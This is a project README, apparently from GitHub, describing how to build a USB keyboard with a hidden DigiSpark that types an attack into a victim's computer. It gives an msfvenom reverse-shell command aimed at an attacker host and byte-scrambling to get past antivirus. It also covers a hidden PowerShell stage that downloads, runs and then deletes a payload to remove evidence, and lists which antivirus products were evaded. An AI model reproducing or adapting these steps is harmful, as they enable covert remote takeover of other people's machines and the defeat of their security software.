

# KiB (Keyboard in Disguise)

## Parts used
1. Standard usb keyboard   


2. Usb hub with FE1.1s chip  


3. DigiSpark with Arduino ATtiny85 microprocessor  


We want to use Digispark to delivery the payload while still keeping the keyboard functional, so a usb hub is needed.
The internal keyboard PCB is connected to the usb hub, and digispark is also connected to up. The upstream port of the usb hub is what will be conneted to the computer.


The internal connections and layout of the completed keyboard is as follows:


## Digispark bootloader

By default, the Digispark have a 5 second programming delay once plugged in for uploading new code. This has caused issues for Windows to fail to recognise Digispark as a USB device when it is conected to the hub with another keyboard, a new bootloader is needed to remove the delay, removing the delay also allows the attack to be carred out faster.

The bootloader can be found [here](https://github.com/micronucleus/micronucleus/tree/v1.11/upgrade/releases) under the name `micronucleus-1.11-entry-jumper-pb0-upgrade.hex`, the program to fash the bootloader can be found [here](https://github.com/digistump/DigistumpArduino/releases/download/1.6.5a/micronucleus-2.0a4-win.zip).

To [flash the firmware](#flashing-digispark-firmware), unzip the micronucleus folder, in a command prompt, enter the full path of micronucleus.exe, followed by the full path of the bootloader hex file, then plug in Digispark to the the computer.

Ater the bootloader is flashed, the delay should be removed. To program digispark after flashing to the new bootloader, bridge the GND and P0 pins on Digispark with a conductive wire when uploading new code.

## Hiding Digispark's name
 When a USB device is first initialised, a notification will show up in windows with the name of the device, to change the name of Digispark to better hide the device, navigate to the Arduino config file ```libraries\DigisparkKeyboard\usbconfig.h```, the name can be changed accordinly.   
   

## Writing a custom payload
Most antiviruses scans for known signatures to detect viruses/malwares, in order to sucessfully deliver the paylaod to the victim machine, which means most of the commonly used payloads and obfuscation method will not work. The singature of the payload must not be in any antivirus databases, so a completely new custom payload will have to be created.

First we can use msfvenom to generate a shellcode, this will be the basis where the custom payload will be built on. We chose to use reverse https encoded using the shikata_ga_nai encoder and output in C, this will make the shellcode harder to detect. 
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.10 LPORT=443 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -e x86/shikata_ga_nai -i 8 -f c > shell.c
```
   

Just the shellcode itself will not evade any antivirus, so next we will need further obfuscate the shell code. In visual studio, create a new C project, we will mainly be using the ```memcpy``` function. The ```memcpy``` function allows flipping of bytes, replacing a specified number of bytes in the target ```char``` with a second ```char```. The syntax of ```memcpy``` is as follows:
```
memcpy(<target char> + <offset>, <secondary char>, <length of secondary char>)
```
   
The raw shellcode can be found under ```final/shell.c```.   


Using the function, we can replace the geninue bytes with dummy bytes, and store the geninue bytes in another string, when the executeable is run, the geninue shellcode will then be assembled. The random bytes can be generated using random.org. Windows defender will be our primary antivrus solution to evade, since it's the most common antivirus on a windows computer. Windows defender has gotten very good at regonise singature of the payloads, so more ```memcpy``` functions will have to be used to evade detection.   

In the final payload, the source code can be found under ```final/payload_source.cpp```, the shellcode is broken into 4 parts, each with their own scrambled bytes, and with many extra bytes and strings thrown in between. Each parts are individually assembled and the 4 parts are pieced together at the end. Afer obfuscation is done, build the source code into a ```.exe``` file.

Unfortunatly, since windows recently added meterpreter singatures (the toolset that we're using to gain control of the victim machine), once the shellcode is reassembled, windows defender can still detect the signature, so the success rate of the payload is not very high, although we did managed to gain control a few times. Nevertheless, being able to be downloaded undetected by most antivirus solutions has proved that the evasion method works. We believe that using similar evasion method to generate a ```.dll``` file, and run the payload in memory will be able to open a reverse shell undetected. More antivirus tests can be found at the following sections.   

## Delivering the payload
Kali will be our attacking machine since it offers a wide range of tools, and we will be using the meterpreter framework to control the victim machine.   

To deliver the payload, we chose to use a 2-stage payload, with the first stage being a powershell script ```.ps1``` file, this will give us better control of the attack steps, and reduce the length of commands needed to be entered to the victim's computer. Digispark will contain the keystrokes to start the attack, we first open a hidden powershell window, then download and run the ```.ps1``` file in memory, the source code of Digispark keystrokes can be found under ```final/digispark.cpp```.   
If we want to have remote access to the victim's machine, an admin powershell is needed. , the remaining steps of the attack remains the same.    

The first stage of the payload can be foun under ```final/1.ps1```, the script downloads the ```.exe``` file that we made earlier and run it, which can be found under ```final/0.exe```. the payload then deletes the ```.exe``` file after it has be run as to not leave any evidece.
   

We also need to migrate the process once the meterpreter shell opens so that the payload can be deleted by the powershell script, this can be done automatically using a ```.rc``` script in Kali. The script can be found under ```final/auto_migrate.rc```. To simplify the steps of preparing the reverse handlder in Kali, another ```.rc``` script can be used, which can be found under ```final/kid_msf_auto.rc```, this script also calls the auto migrate script so both steps can be done at once.
   

Finally, flash Digispark using the appropriate code using the [steps laid out earlier](#flashing-digispark-firmware). In Kali, install and start apache servce, then place ```0.exe``` and ```1.exe``` under ```/var/www/html```, and place ```kid_msf_auto.rc``` and ```auto_migrate.rc``` under ```/home/kali```. In a terminal, start the reverse shell handler by entering
```
msfconsole -q -r /home/kali/kid_msf_auto.rc
```
and wait for the victim machine to connect.   

Once the keyboard is plugged into the vicim machine, assuming network configurations are correct and it is not intercepted by antivirus, a revershell should be opened and we will have control of the victim machine.   

## Antivirus evasion
**AVG:**  AVG antivirus can be evaded as per the demo video.   
  
**Avast:**  Avast can be partially evaded, if webshield is turned off to allow downloading of local network files(Avast blocks downloading files local network by default, for this project, we hosted the files on the local network for easier access and management, however, if this is a real attack, the payload would be hosted on a remote server and the webshield would not block the download), with fast migration, the meterpreter shell stayed open for a few mimutes before being detected.   
   

 
**Windows Defender:**  in some cases, we were able to evade it, although it is not consistent, most of the time the payload can be downloaded but a meterpreter session cannot be opened without being detected. 
   


**Malwarebytes:**  Malwarebytes can be evaded.
   


**Kaspersky Security Cloud:**  The payload can be downloaded without being detected, but a meterpreter session cannot be opened without being detected.   

**Bitdefender Antivirus Free Edition:**  We were not able to evade Bitdefender Antivirus Free Edition.   

We were not able to test Mcafee, Norton because credit card information is required to start the free trail.


[DigiKeyboard reference](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboard.h)
|
[DigiMouse reference](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkMouse/DigiMouse.h) 
(only one can be used at a time)

[Payload reference](https://github.com/swisskyrepo/PayloadsAllTheThings)
